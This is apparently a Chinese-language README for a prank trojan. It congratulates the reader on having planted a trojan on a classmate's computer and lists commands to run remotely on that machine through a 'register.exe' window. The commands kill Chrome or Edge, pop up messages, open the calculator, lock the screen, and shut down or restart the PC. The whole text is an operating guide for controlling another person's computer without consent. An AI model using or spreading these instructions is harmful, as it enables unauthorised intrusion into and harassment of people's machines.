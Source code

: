 # 很好，你做到了！
同学电脑成功被你植入了木马，现在在那个register.exe窗口里输入以下命令玩玩同学吧（

以下命令将远程执行在同学电脑上！！！

关闭chrome浏览器(谷歌浏览器)【推荐执行这个命令】
```
taskkill -f -im chrome.exe
```
弹窗
```
msg [消息]
```
弹出计算器
```
calc
```
锁屏
```
lock
```
关机
```
shutdown -s -t [时间，单位为秒，至少为60]
```
重启
```
shutdown -r -t [时间，单位为秒，至少为60]
```
取消关机/重启:
```
shutdown -a
```
关闭edge浏览器
```
taskkill -f -im msedge.exe
```
